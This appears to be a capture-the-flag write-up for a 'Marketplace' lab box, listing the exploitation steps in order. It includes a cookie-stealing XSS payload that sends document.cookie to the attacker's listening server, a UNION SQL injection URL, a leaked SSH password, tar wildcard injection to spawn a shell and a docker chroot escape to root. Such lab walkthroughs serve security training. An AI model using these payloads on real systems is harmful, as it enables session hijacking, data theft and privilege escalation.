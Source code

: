 # - MARKET PLACE WRITEUP- #

1. Find all ports
    - `sudo nmap -sS 10.10.213.65`
    - Notice 22 and 80 are open

2. Find and subdomains open with dirb
    - `dirb http://IP /usr/share/wordlists/dirb/common.tx`

3. See that website accepts xss attack and that someone from there will review it when reported
Make listing
    ```JS
    <script>alert('xss');</script>
    ```

4. Start up listening server
    - `python3 -m http.server`

5. Go to website and submit some nasty cookie collecter
    ```JS 
    <script>document.location="http://THM_IP:8000/?c="+document.cookie;</script>
    ```

6. Then go to http://BOX_IP/report/3 (or whatever number the ID of the item is) and report it

7. Now go to http://10.10.92.114/admin and in storage change cookie token to the collected one from michael
8. Now you should be logged in as michael and should see first flag

9. Clicking on user can see url becomes  
    - http://10.10.92.114/admin?user=25
    - can add
    - http://10.10.92.114/admin?user=25password=
    - and see we no have an SQL injection error

10. We can do http://10.10.92.114/admin?user=25 UNION SELECT * FROM users.
We are interested in `http://10.10.92.114/admin?user=25%20UNION%20SELECT%201,GROUP_CONCAT(message_content),3,4%20FROM%20marketplace.messages`

11. Now ssh into jake@BOX_IP and we can see user.txt using @b_ENXkGYUCAv3zJ as password

- Check for SUID
    - `find / -perm /6000 -type f -executable 2>/dev/null`
- SEE WHAT WE CAN RUN AS SUDO
    - `sudo -l`
- run things as michael
    - `sudo -u michael /opt/backups/backup.sh`


12. `tar cf backup.tar * ` will run anything after the star

13. so make two files after looking at tar SUID for sudo in https://gtfobins.github.io/gtfobins/tar/
- file 1: --checkpoint=1 
- file 2: --checkpoint-action=exec=/bin/sh
- can make them by going to vim and doing :wq filename

14. run command as michael and you open shell as michael, do bash for bash shell
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`
